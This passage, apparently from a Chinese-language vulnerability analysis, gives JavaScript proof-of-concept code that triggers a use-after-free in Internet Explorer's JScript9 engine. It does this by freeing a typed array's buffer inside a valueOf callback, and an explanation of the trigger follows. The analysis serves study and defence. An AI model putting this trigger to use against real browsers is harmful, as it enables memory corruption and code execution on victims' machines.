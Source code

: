 ```
function func(O, A, F, O2) `{`
    arguments.push = Array.prototype.push;
    O = 1;
    arguments.length = 0;
    arguments.push(O2);
    if (F == 1) `{`
        O = 2;
    `}`

    // execute abp.valueOf() and write by dangling pointer
    A[5] = O;
`}`;

// prepare objects
var an = new ArrayBuffer(0x8c);
var fa = new Float32Array(an);

// compile func
func(1, fa, 1, `{``}`);
for (var i = 0; i &lt; 0x10000; i++) `{`
    func(1, fa, 1, 1);
`}`

var abp = `{``}`;
abp.valueOf = function() `{`

    // free 
    worker = new Worker('worker.js');
    worker.postMessage(an, [an]);
    worker.terminate();
    worker = null;

    // sleep
    var start = Date.now();
    while (Date.now() - start &lt; 200) `{``}`

    // TODO: reclaim freed memory

    return 0
`}`;

try `{`
    func(1, fa, 0, abp);
`}` catch (e) `{`
    reload()
`}`
```

要理解这一漏洞，我们首先看一下`func()`的执行方式。这里，重要的是了解将什么值设置为A[5]。根据代码，与之相关的应该是一个参数`O`。在函数开始时，会将参数`O`重新分配为1，但随后将函数参数长度设置为0。这个操作不会清除函数参数（通常，常规数组会这样做），但允许将参数`O2`放在索引为0的参数列表1中，这意味着`O = O2`。除此之外，如果参数`F`等于1，则会再次重新分配`O`，但这次会分配整数2。这意味着，根据参数`F`的值，`O`参数会等于`O2`参数的值或是整数2。参数`A`是32位浮点型数组，在将值分配给数组的索引5之前，会将值首先转换为浮点数。将整数转换为浮点数的过程比较简单，但是如果要将对象转换为浮点数，这个过程就不再那么简单了。该漏洞利用使用了重载方法`valueOf()`中的`abp`对象。当对象转换为浮点型时执行此方法，但是在其内部，包含释放ArrayBuffer的代码，该代码由Float32Array查看，并在其中设置返回值。为了防止将值存储在已释放对象的内存中，JavaScript引擎需要首先检查对象的状态，然后再将值存储在对象中。为了安全地转换和存储浮点值，`JScript9.dll`使用函数`Js::TypedArray&lt;float,0&gt;::BaseTypedDirectSetItem()`。下面是这个函数的反编译代码：

